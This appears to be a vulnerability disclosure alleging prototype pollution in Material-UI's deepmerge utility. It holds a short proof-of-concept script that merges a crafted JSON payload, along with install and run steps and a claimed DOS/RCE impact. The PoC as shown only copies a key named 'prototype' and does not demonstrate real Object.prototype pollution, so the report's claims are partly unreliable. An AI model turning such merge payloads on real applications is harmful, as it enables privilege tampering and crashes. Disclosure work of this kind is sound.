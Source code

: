 # Description
material-ui package is vulnerable to prototype pollution issue 
file can be found in  https://github.com/mui-org/material-ui/blob/next/packages/material-ui-utils/src/deepmerge.ts
# Proof of Concept 
1. Creating poc file namely poc.js
```js
var utils = require('@material-ui/utils');
var src = {};
let object = utils.deepmerge({}, JSON.parse('{ "myProperty": "a", "prototype" : { "isAdmin" : true } }'), {
    clone: false,
});
console.log(object.prototype.isAdmin);
```
2. Execute command in terminal  npm install @material-ui/utils
3. Execute command in terminal  node poc.js
[POC] https://drive.google.com/file/d/1twz_btDed0aeQVEO8BBAVs4Vg8kWjcxV/view?usp=sharing
# Impact
Prototype pollution which could lead to DOS and RCE


